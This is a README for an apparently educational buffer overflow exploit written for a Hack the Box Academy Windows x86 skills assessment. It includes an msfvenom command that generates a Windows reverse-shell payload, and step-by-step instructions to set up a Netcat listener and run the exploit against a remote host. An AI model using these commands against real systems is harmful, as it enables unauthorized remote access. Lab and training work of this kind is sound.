 # General Information
This exploit was written for the skills assessment portion of Hack the Box
Academy's Stack-based Buffer Overflows for Windows x86 module. The goal of 
the module was to make the reader proficient at exploiting stack-based 
buffer overflow vulnerabilities in x86 Windows applications.The skills 
assessment required you to download a program file, develop an exploit for
the application, and exploit an image of that application running on a 
remote server. Keeping that premise in mind, this exploit meets those goals
by building a reverse shell payload tailored for the application, and 
delivering that payload via a TCP connection established by a socket. 
I will not disclose the specific methodologies used to develop this 
exploit as I believe it would rob the reader of the learning opportunity 
provided by the module.

# Usage Instructions
**IMPORTANT:** The payload used inside this exploit, being a reverse shell,
requires a listening host, and a listening port. That being said, you will
**NOT** be able to utilize this exploit, as it is, to get a reverse shell 
on your own system. A user will have to replace the "buf" variable with 
a payload generated specifying their ip address (i.e. as it appears after 
running `ifconfig {interface}`), and an associated port number. The payload
in this exploit was generated using a command similar to this:
`msfvenom -p 'windows/shell_reverse_tcp' LHOST='{listening-ipaddr}' LPORT='{listening-port}' -f python -b '\x00\x0A\x0D'`

To utilize the exploit:
- Clone the repository locally
- Navigate inside the project folder
- Generate your custom payload using msfvenom or other similar tools 
- Replace the "buf" variable with your own payload
- Save the file
- Give the exploit.py file executable permissions
- Setup a Netcat Listener
- Execute the following shell command `./exploit.py '{ipaddr-of-remote-server}'`
